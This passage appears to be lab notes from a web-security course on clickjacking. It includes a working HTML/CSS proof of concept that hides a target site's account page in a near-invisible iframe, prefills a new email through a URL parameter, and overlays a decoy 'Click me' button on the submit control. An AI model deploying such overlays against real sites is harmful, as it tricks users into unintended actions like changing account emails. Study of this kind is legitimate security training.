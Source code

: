 The decoy page contains only clickable button, that is perfectly aligned with the invisible target page action button and hidden underneeth it. On clicking it, the target action button would be truly clicked and perform for user unintended action.

To keep in mind, some browsers block certain, too low `opacity` levels.

## Clickjacking with form input data prefilled from a URL parameter

`/my-account` endpoint has a form for updating email.

Form input field is being popullated with quesry params, so entring `/my-account?email=pwned@email.com` will cause the form to be filled and ready to submit.

```
<head>
<style>
    #target_website {
        position:relative;
        width:1000px;
        height:1000px;
        opacity: 0.0005;
        z-index:2;
        top: 0;
        left: 0;
    }
    #decoy_website {
        position:absolute;
        width:100%;
        height:100%;
        z-index:1;
    }
    #click {
        position: relative;
        top: 453;
        left: 50;
        padding: 5;
        width: 100;
    }
</style>
</head>
<body>
<div id="decoy_website">
    <button type="button" id="click">
        Click me
    </button>
</div>
<iframe 
    id="target_website" 
    src="https://0ae800ff04ca24988c468aea00a3000c.web-security-academy.net/my-account?email=pwned@email.com"
></iframe>
</body>
```
